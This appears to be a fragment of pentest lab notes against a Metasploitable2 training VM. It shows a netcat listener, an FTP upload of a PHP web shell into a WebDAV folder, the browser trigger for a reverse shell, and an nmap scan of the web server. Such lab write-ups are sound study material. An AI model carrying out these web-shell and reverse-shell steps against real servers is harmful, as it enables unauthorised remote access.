 ```bash
# Open a new tab and setup a listener
nc -nvlp 1234
```

```bash
# Login with FTP again and upload the shell.php
cd /
cd /var/www/
put shell.php
    local: shell.php remote: shell.php
    200 EPRT command successful. Consider using EPSV.
    553 Could not create file.
# The user does not have the necessary permissions
cd /var/www/dav
put shell.php
```

- Open the browser and run the `shell.php` file
  - `http://10.2.20.205/dav/`

```bash
/bin/bash -i
```

![Reverse shell received](4-exploitationassets/image-20230424145705593.png)

### PHP

```bash
nmap -sV -sC -p 80 10.2.20.205
```

```bash
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) DAV/2)
|_http-title: Metasploitable2 - Linux
|_http-server-header: Apache/2.2.8 (Ubuntu) DAV/2
```
